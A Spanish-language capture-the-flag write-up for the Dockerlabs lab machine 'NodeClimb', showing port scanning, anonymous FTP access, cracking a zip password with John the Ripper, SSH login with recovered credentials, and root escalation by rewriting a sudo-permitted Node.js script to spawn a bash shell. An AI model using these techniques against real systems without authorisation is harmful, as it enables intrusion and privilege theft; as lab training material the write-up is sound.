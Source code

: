 
# Write-up: 

- **Nombre de la máquina:** `NodeClimb` 
- **Plataforma:** `Dockerlabs` 
- **IP:** `172.17.0.2` 
- **SO:** `Linux` 
- **Dificultad:** `Fácil`

---

## 1. RECONOCIMIENTO

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima.

#### 1.1. Verificación de Conectividad

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL lo que puede darnos una primera pista sobre el sistema operativo.

```
 ping 172.17.0.2
```
Nos devuelve conectividad y un TTL=64 por lo que estamos ante una máquina Linux. 
![](Imagenes/237.png)
 
#### 1.2. Escaneo de Puertos

Se realiza un escaneo con **Nmap** para descubrir puertos abiertos, los servicios que corren en ellos y sus versiones.

```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 172.17.0.2 -oN port_scan.txt
```

**Puertos Descubiertos:**

| Puerto | Servicio | Versión       | Notas                                                 |
| ------ | -------- | ------------- | ----------------------------------------------------- |
| 21     | ftp      | vsftpd 3.0.3  | Iniciamos por aquí.<br>Posible sesión nula            |
| 22     | ssh      | OpenSSH 9.2p1 | A la espera de credenciales segundo vector de ataque. |

![](Imagenes/238.png)

Normalmente el acceso por el puerto 22 al servicio ssh requiere de credenciales. Ya sea usuario y contraseña o clave rsa. En este caso carecemos de información al respecto así que lo más productivo es explorar el puerto :21 por pudieron inicia una `session null`

---

## 2. ENUMERACIÓN

Una vez identificados los servicios, se procede a investigarlos en profundidad en busca de vulnerabilidades o información útil.

### Puerto 21 ( FTP)

Probamos a inciar sesión con credeciales por defecto:

`ftp 172.17.0.2`

Name: `anonymous`
Password: `anonymous`

![](Imagenes/239.png)

Tras listarlo encontramos un archivo llamativo: 
	`secretitopicaron.zip`
Que descargamos a nuestra máquina local  con `get`

`get secretitopicaron.zip`

![](Imagenes/240.png)

##### 1.Extracción del hash

`zip2john` convierte el ZIP en un hash en formato texto que `John` entiende.

```
zip2john secretitopicaron.zip > zip_hash.txt
```

![](Imagenes/241.png)


##### 2. Crackeamos con John

Utilizamos `John` para crackear la contraseña del archivo usando `rockyou`

```
john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt
```

![](Imagenes/242.png)

##### 3. Comprobamos el resultado

Utilizamos `show` para comprobar el resultado de `john`

```
john --show zip_hash.txt

```

![](Imagenes/243.png)

- **Hallazgo** :
	Contraseña: `password1`

##### 4.Descomprimimos el archivo. zip

Para descomprimir el archivo .zip utilizamos la herramienta `unzip`

```
unzip secretitopicaron.zip
```

![](Imagenes/244.png)

-  **Hallazgo** :
	`mario:laKontraseñAmasmalotaHdelbarrioH`


---

## 3. EXPLOTACIÓN

### 3.1 Acceso inicial:

Con las credenciales descubiertas en el servicio `ftp` con `john`  nos conectamos al servicio ssh:
```
	ssh mario@172.17.0.2`
```


![](Imagenes/245.png)

---

## 4. ESCALADA DE PRIVILEGIOS

Una vez dentro, el objetivo es elevar los privilegios del usuario actual al de `root`.

### 4.1. Enumeración Interna

Se realizan comprobaciones básicas y se buscan posibles vectores de escalada.

#### Comprobaciones del sistema:

¿Qué usuario somos?
`whoami`

![](Imagenes/246.png)

¿A qué grupo pertenezco? `id`

![](Imagenes/247.png)

¿Qué usuario hay en el sistema?
¿Qué usuario tienen una shell asignada?

```
cat /etc/passwd | grep sh
```

![](Imagenes/248.png)

Revisamos los directorios de los usuarios:
`mario`:

![](Imagenes/249.png)

#### Búsqueda del Vector de Escalada:

- **Permisos Sudo:** ¿Qué comandos podemos ejecutar como otro usuario (o `root`)?
    ```
    sudo -l
    ```
     vemos que el usuario `mario`  puede ejecutar con sudo el script : `/home/mario/script.js` 
    ![](Imagenes/250.png)

- Comprobamos los permisos del script: 
```
	 ls -l /home/mario/script.js
```
	
![](Imagenes/251.png)
Tenemos permisos sobre el con el usuario `mario`

- Abrimos un archivo nano donde introduciremos un código malicioso que nos elevará privilegios al ejecutar el script. Guardamos. 

```
nano /home/mario/script.js
```
![](Imagenes/252.png)


```
 // Este código lanzará /bin/bash como root
require('child_process').spawn('/bin/bash', {
  stdio: [0, 1, 2],
  shell: true
});
```


### 4.2. Explotación y Escalada a Root

- Ejecutamos el script sudo `/usr/bin/node /home/mario/script.js` y nos elevamos a `root`. 

![](Imagenes/253.png)


SOMOS ROOT🚀


